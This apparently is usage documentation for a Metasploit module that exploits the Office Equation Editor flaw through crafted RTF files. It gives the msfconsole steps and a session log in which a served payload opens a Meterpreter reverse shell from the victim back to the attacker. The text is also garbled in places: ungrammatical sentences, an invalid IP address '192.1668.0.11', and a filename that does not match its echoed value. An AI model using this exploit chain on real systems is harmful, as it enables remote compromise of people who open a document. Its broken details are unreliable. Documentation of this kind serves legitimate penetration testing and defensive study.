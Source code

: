 ## Introduction

Module exploits a flaw in how the Equation Editor that allows an attacker to execute arbitrary code in RTF files without interaction. The vulnerability is caused by the Equation Editor, to which fails to properly handle OLE objects in memory.

## Vulnerable Application

- Microsoft Office 2016
- Microsoft Office 2013 Service Pack 1
- Microsoft Office 2010 Service Pack 2
- Microsoft Office 2007

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/fileformat/office_ms17_11882`
3. Do: `set PAYLOAD [PAYLOAD]`
4. Do: `run`


## Options
### FILENAME
Filename to output & if injecting a file, the file to inject

### FOLDER_PATH
Path to filename to inject


## Example

```
msf > use exploit/windows/fileformat/office_ms17_11882
msf exploit(office_ms17_11882) > set FILENAME msf.rtf
FILENAME => /home/mumbai/file.rtf
msf exploit(office_ms17_11882) > set LHOST ens3
LHOST => ens3
msf exploit(office_ms17_11882) > set LPORT 35116
LPORT => 35116
msf exploit(office_ms17_11882) > run
[*] Using URL: http://0.0.0.0:8080/BUY0DYgc
[*] Local IP: http://192.1668.0.11:8080/BUY0DYgc
[*] Server started.
[*] 192.168.0.24     office_ms17_11882 - Handling initial request from 192.168.0.24
[*] 192.168.0.24     office_ms17_11882 - Stage two requestd, sending
[*] Sending stage (205379 bytes) to 192.168.0.24
[*] Meterpreter session 1 opened (192.168.0.11:35116 -> 192.168.0.24:52217) at 2017-11-21 14:41:59 -0500
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```
